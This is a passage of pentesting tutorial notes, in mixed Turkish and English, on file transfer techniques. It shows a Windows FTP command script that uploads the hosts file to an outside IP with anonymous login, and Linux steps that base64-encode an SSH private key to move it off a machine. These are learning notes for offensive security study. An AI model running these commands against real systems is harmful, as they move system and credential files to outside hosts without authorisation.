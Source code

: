 
##### 3-**FTP Client için bir Komut Dosyası Oluşturun ve Hedef Dosyayı Yükleyin** Etkileşimli bir Shell olmadığında

```cmd-session
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt

ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```



# Linux

## Download  Operations

### 1-**Base64 Kodlama / Kod Çözme**  

##### 1-Check File MD5 hash

```shell-session
md5sum id_rsa
```

##### 2-Encode SSH Key to Base64

```shell-session
cat id_rsa |base64 -w 0;echo
```

##### 3-Linux - Decode the File

```shell-session
echo -n 'LS0tLS1CR..SNIP..S0tLQo=' | base64 -d > id_rsa
```

##### 4- Linux - Confirm the MD5 Hashes Match

```shell-session
md5sum id_rsa
```


### 2-**Wget ve cURL ile Web İndirmeleri**
